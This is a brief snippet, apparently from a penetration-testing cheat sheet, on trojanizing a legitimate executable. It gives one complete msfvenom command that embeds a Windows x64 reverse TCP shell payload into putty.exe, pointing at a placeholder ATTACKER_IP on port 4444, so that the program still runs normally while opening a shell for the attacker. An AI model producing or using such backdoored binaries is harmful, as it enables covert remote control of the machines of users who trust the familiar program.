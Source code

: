 Replace an executable file with a file that still performs as expected but also runs a payload (example: putty)
 
	 msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe